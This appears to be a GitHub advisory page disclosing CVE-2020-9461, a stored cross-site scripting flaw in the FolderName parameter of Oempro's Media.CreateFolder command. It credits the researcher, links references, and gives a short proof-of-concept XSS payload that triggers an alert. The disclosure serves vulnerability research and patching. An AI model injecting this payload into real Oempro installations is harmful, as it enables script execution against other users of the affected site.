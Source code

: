 # CVE-2020-9461

```
██╗  ██╗███████╗███████╗
╚██╗██╔╝██╔════╝██╔════╝
 ╚███╔╝ ███████╗███████╗
 ██╔██╗ ╚════██║╚════██║
██╔╝ ██╗███████║███████║
╚═╝  ╚═╝╚══════╝╚══════╝
``` 

**Stored XSS - Oempro**

<p>Octech Oempro 4.7 through 4.11 allow stored XSS by an authenticated user. The FolderName parameter of the Media.CreateFolder command is vulnerable.</p>

><p><b>Command:</b>Media.CreateFolder</p>
><p><b>Request parameter:</b>FolderName</p>
><p><b>Version:</b> Oempro v4.7 <= v4.11</p>
><p><b>Researcher:</b> Guilherme Rubert
><p><b>Payload</b> </p>
```
<marquee/onstart=alert("XSS")>
````

<br><br>**References**
<p>https://guilhermerubert.com/blog/cve-2020-9461/</p>
<p>https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-9461</p>
<p>https://nvd.nist.gov/vuln/detail/CVE-2020-9461</p>
<p>https://www.octeth.com/</p>
